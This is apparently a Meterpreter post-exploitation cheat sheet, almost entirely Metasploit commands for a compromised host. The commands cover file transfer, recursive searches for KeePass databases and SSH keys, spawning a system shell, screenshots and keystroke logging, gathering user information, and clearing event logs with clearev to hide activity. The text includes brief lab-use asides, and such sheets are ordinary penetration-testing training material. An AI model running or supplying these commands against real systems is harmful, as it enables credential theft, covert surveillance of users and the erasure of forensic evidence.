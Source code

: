 Filesystem interaction
```
pwd
ls
cd C:\\Users\\Public
# Download remote file to your current local directory
download "C:\\Windows\\System32\\drivers\\etc\\hosts"
# Upload local file to a remote path
upload /tmp/tool.exe "C:\\Users\\Public\\tool.exe"
# Recursive search for interesting filenames
search -d "C:\\Users" -f *.kdbx -r
search -d "/home" -f *.ssh -r
```

Spawn a system shell (use sparingly; return with exit)
```
shell
whoami
hostname
exit
```

Screenshots and keylogging (if supported/allowed)
```
screenshot
keyscan_start
# ... have the user type ...
keyscan_dump
keyscan_stop
```

Run post modules from Meterpreter (convenience)
```
# Enumerate logged-on users (Windows)
run post/windows/gather/enum_logged_on_users

# Basic local enumeration (multi-platform options vary)
run post/multi/gather/env
```

Run post modules from msfconsole (requires backgrounded session)
```
background
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

Session management and cleanup
```
background
sessions -l
sessions -i 1
# Optional log clearing (Windows; use judiciously in labs)
clearev
# Kill one or all sessions if needed
sessions -k 1
sessions -K
```
